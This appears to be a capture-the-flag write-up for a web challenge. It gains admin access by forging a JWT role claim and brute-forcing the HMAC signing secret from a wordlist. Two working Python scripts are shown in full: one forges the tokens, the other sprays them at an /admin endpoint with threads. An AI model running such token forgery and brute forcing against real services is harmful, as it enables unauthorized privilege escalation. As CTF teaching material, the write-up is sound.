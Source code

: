 ## Question
Now that you have access to the user panel, try to get admin access. Note: you may need to brute froce something. Here is the wordlist you can use.

## Solution
Now we've logged in as KevinM, we need admin access. Using devtools we see that there's a jwt which when decoded shows this.
![image](https://github.com/user-attachments/assets/0068ff62-ebb0-4413-a931-c43c675ea2ee)

Our aim is to change the role to admin and enter a correct signature.
They've given a wordlist containing a list of words which we can use to encode it in the JWT.
Writing two scripts, one to encode all the JWTs with the words-

```python
import jwt

jwt_token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IktldmluTSIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzQyNzkwNjg4LCJleHAiOjE3NDI3OTQyODh9.kli2TBZUv6G91qypOs8yS_WMfV02z5urlEUtfhU_vGQ"

wordlist_path = r"C:\Users\rish9\Documents\programs\ctf scripts\password.txt"

def extract_payload(jwt_token):
    """Decodes JWT without verifying the signature."""
    try:
        decoded = jwt.decode(jwt_token, options={"verify_signature": False})
        if "role" in decoded:
            decoded["role"] = "admin"
            print("[*] Role changed from 'user' to 'admin'.")
        else:
            print("[-] No 'role' field found in JWT.")
        
        return decoded
    except jwt.DecodeError:
        print("[-] Invalid JWT format!")
        exit(1)

payload = extract_payload(jwt_token)

try:
    with open(wordlist_path, "r", encoding="utf-8") as wordlist_file:
        words = [line.strip() for line in wordlist_file if line.strip()]

    print(f"[*] Loaded {len(words)} words from {wordlist_path}")

    for secret in words:
        new_jwt = jwt.encode(payload, secret, algorithm="HS256")
        print(f"[+] Secret: {secret} -> JWT: {new_jwt}")
        with open("jwt.txt", "a", encoding="utf-8") as jwt_file:
            jwt_file.write(new_jwt+"\n")

except FileNotFoundError:
    print(f"[-] Error: Wordlist file '{wordlist_path}' not found!")
except Exception as e:
    print(f"[-] Error: {str(e)}")
```

and another to go to `/admin` endpoint and verify which JWT works-
```python
import requests
import time
from concurrent.futures import ThreadPoolExecutor, as_completed

url = "http://188.245.212.74:10037/admin"
tokens_file = r"C:\Users\rish9\Documents\programs\ctf scripts\jwt.txt"
invalid_message = "Invalid token"
max_threads = 10
def check_token(token):
    """Sends a request with the token and checks the response."""
    cookies = {"token": token}
    try:
        response = requests.get(url, cookies=cookies, timeout=5)
        if invalid_message not in response.text:
            return token, response.text  
    except requests.RequestException as e:
        return None, f"HTTP Error: {str(e)}"
    return None, None  

def test_tokens():
    try:
        with open(tokens_file, "r", encoding="utf-8") as file:
            tokens = [line.strip() for line in file if line.strip()]

        print(f"[*] Loaded {len(tokens)} JWTs from {tokens_file}")
        print(f"[*] Running with {max_threads} threads...\n")

        
        with ThreadPoolExecutor(max_threads) as executor:
            future_to_token = {executor.submit(check_token, token): token for token in tokens}

            for i, future in enumerate(as_completed(future_to_token)):
                token = future_to_token[future]
                try:
                    valid_token, response_text = future.result()
                    if valid_token:
                        print(f"\n[+] SUCCESS! Valid Token Found: {valid_token}")
                        print("[+] Response Content:")
                        print(response_text)  
                        executor.shutdown(wait=False)  
                        return
                except Exception as e:
                    print(f"[-] Error checking token: {str(e)}")

                print(f"[-] {i+1}/{len(tokens)} Tokens Checked", end="\r")  

        print("\n[-] No valid token found in the list.")

    except FileNotFoundError:
        print(f"[-] Error: File '{tokens_file}' not found!")
    except Exception as e:
        print(f"[-] Unexpected Error: {str(e)}")





if __name__ == "__main__":
    start_time = time.time()
    test_tokens()
    print(f"\n[*] Completed in {time.time() - start_time:.2f} seconds.")
```

We get a valid JWT and when changed in the devtools we get the flag.
![image](https://github.com/user-attachments/assets/193f25dc-efff-4648-a0d8-d41f13e398ba)

flag: `ping{Spr1n7_T3ch_@dm1n_fl@G}`

